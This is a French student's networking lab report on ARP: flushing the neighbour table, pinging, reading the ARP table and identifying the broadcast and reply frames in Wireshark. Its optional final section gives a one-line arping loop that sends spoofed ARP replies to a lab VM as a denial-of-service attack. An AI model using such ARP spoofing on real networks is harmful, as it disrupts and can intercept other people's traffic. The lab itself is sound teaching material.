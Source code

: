 ```
$ sudo ip n flush all
$ arp -n
$ 
$
```
```
$ sudo ip n flush all ; ping 10.42.0.2 -c 1 ; arp -n
PING 10.42.0.2 (10.42.0.2) 56(84) bytes of data.
64 bytes from 10.42.0.2: icmp_seq=1 ttl=64 time=0.860 ms

--- 10.42.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.860/0.860/0.860/0.000 ms
Address                  HWtype  HWaddress           Flags Mask            Iface
10.42.0.2                ether   a0:ce:c8:ee:d4:14   C                     enp8s0
```

J'ai mit les 3 commandes à la suite, car en le faisant à la main, le routeur Ynov réapparaissait dans la table.

> Les échanges ARP sont effectuées automatiquement par votre machine lorsqu'elle essaie de joindre une machine sur le même LAN qu'elle. Si la MAC du destinataire n'est pas déjà dans la table ARP, alors un échange ARP sera déclenché.

🌞 **Wireshark it**

Dans le terminal:
```
$ sudo ip n flush all ; ping 10.42.0.2
```

-Trame 1:

    - Adresse source : 08:97:98:d4:fb:50  (PC 1)
    - Adresse dest   : ff:ff:ff:ff:ff:ff  (BROADCAST)

-Trame 2:

    -Adresse source : a0:ce:c8:ee:d4:14  (PC 2)
    -Adresse dest   : 08:97:98:d4:fb:50  (PC 1)

🦈 **PCAP qui contient les trames ARP**

[le pcap du arp](./pcap/arp.pcapng)

> L'échange ARP est constitué de deux trames : un ARP broadcast et un ARP reply.

# II.5 Interlude hackerzz

(optionnel)

**En utilisant arping**

DOS attaque

Sur Eve (192.168.56.9) :
```
$ while :; do sleep 1;  sudo arping -c 1 -A -s 192.168.56.10 -I vboxnet0 192.168.56.8; done
```
``-A`` sert à utiliser arping en mode ANSWER only, donc des paquets "reply" seront envoyés toutes les 1 secondes
